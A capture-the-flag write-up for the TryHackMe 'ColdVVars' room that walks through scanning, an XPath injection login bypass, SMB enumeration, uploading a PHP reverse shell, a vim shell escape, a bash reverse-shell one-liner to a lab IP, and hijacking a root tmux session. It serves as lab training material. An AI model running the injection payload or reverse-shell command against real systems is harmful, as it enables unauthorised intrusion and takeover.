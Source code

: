 # ColdVVars

* This is a writeup for the room ["ColdVVars"](https://tryhackme.com/room/coldvvars) by cirius & fl4shi3r at TryhackMe

* I completed this room using Parrot OS so there might be a syntax difference if you use another Linux distribution.

* This challenge is marked as MEDIUM difficulty but I believe hackers of all levels can complete it and learn a lot from it!

                ** HAVE FUN!! 
                
                
![alt_text](coldvvar/coldvvar1.png "image_tooltip")


* First we start with our nmap scan!


![alt_text](coldvvar/coldvvar2.png "image_tooltip")


* 2 SMB ports open (139, 445) and 2 HTTP ports open as well (8080, 8082)

* Doing a directory search on both HTTP ports using gobuster...

![alt_text](coldvvar/coldvvar3.png "image_tooltip")

![alt_text](coldvvar/coldvvar4.png "image_tooltip")


* We find /dev on port 8080 and /login on port 8082

* Taking a peek at the login page...


![alt_text](coldvvar/coldvvar5.png "image_tooltip")


* In the room description, it says "XPath Injection" (pro TryHackMe tip!! Looking at the room's description can give us 
a nice hint on how to solve it!!). If you are not familiar with this type of attack, there is absolutely no shame in just googling it!! There is no limit to how many new things you can learn by just googling attacks, exploits etc.

* Going through https://book.hacktricks.xyz/pentesting-web/xpath-injection you will see ...

![alt_text](coldvvar/xpath.png "image_tooltip")


* Great! Let's try that one then!! Insert `" or 1=1 or " `  in the username field ...


![alt_text](coldvvar/coldvvar6.png "image_tooltip")


* And the credentials we need are the last ones in the list!!

* Using a tool called `smbmap` we enumerate shares now that we have username:password!!


![alt_text](coldvvar/coldvvar7.png "image_tooltip")


* We see SECURE which is in Dev (we found a /dev on port 8080, remember??) 

* Using `smbclient` we check out that share and find a file called `note.txt`

* We cab check its contents quickly by using `curl`


![alt_text](coldvvar/coldvvar8.png "image_tooltip")


* Awesome!! That means we can upload files in there as well, which includes a reverse php shell!! (I uploaded the shell I used here in this repository, for easier, faster access)


![alt_text](coldvvar/coldvvar9.png "image_tooltip")


* We start a netcat listener, and activate our shell by simply using curl again ( you can also just do this through web browser!)


![alt_text](coldvvar/coldvvar10.png "image_tooltip")


* And we get our reverse shell!!


![alt_text](coldvvar/coldvvar11.png "image_tooltip")


* tmux, tmux, tmux ... hmmmmmmm ....look at that `zzzzzzzz root@localhost` output! (Can you guess what we will use to escalate privileges??) 

* But let's not get ahead of ourselves. First stabilize the shell, switch users and get user.txt


![alt_text](coldvvar/coldvvar12.png "image_tooltip")


![alt_text](coldvvar/coldvvar13.png "image_tooltip")


* Sweet. Going by the name of the room, we should go check `env` next!


![alt_text](coldvvar/coldvvar14.png "image_tooltip")


* In the middle of that output, something looks interesting ...`OPEN_PORT=4545` ... let's see if we can connect to this port using netcat ...


![alt_text](coldvvar/coldvvar16.png "image_tooltip")


* Choosing the option 4 (just type 4 and hit ENTER) will bring you to a vim page (yeah, UGH, I know lol) 


![alt_text](coldvvar/coldvvar17.png "image_tooltip")


* hit ESC before doing anything (or else you will be stuck in that vim nightmare forever!!)
* AFTER hitting ESC

    * :!/bin/sh
    * id (only to confirm! You will see "marston" which is a word that also appears there when we got the reverse shell)
    * open another terminal tab and start a netcat listener
    * type `bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'` but substitute the IP for your IP!
    
    
![alt_text](coldvvar/coldvvar18.png "image_tooltip")



* Remember all that tmux, tmux, tmux we saw when we got our reverse shell? We will attach to the tmux session and go to the window where marston used ssh as root! Follow this:

    * First stabilize the shell by typing `python3 -c "import pty;pty.spawn('/bin/bash')"`
    * Then next do Ctrl Z. It will appear as if you killed the shell, but no, you just detached from it
    * Next, type `stty raw -echo; fg`
    * Next, open another tab in your terminal and type `stty size` 
    

![alt_text](coldvvar/coldvvar19.png "image_tooltip")

* Continuing with the process:

    * These numbers might be different for you. These are the rows and columns the terminal window has.
    * Next go back to the tab where the shell is and type `stty rows 26 cols 96`  (substitute by the numbers that come to you)
    * Next type `export TERM=xterm`
    * Next type `tmux attach`
    

![alt_text](coldvvar/coldvvar21.png "image_tooltip")

* Now we need to find the window where the root is. To move windows, Crtl b, then hit n, until you see


![alt_text](coldvvar/coldvvar20.png "image_tooltip")


* To be able to type in the root window, Crtl b, then hit o


![alt_text](coldvvar/coldvvar22.png "image_tooltip")


* YAY!!!!! We did it!!! I am NOT a tmux fan/ user so this was quite a challenge!


![alt_text](coldvvar/coldvvarsfinal.png "image_tooltip")


I hope you enjoyed this super challenging room and thank you so much for reading my writeup!!

Happy Hacking!!


                   `Crypto Tzipi aka CyberLola`
















" or 1=1 or "


bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'

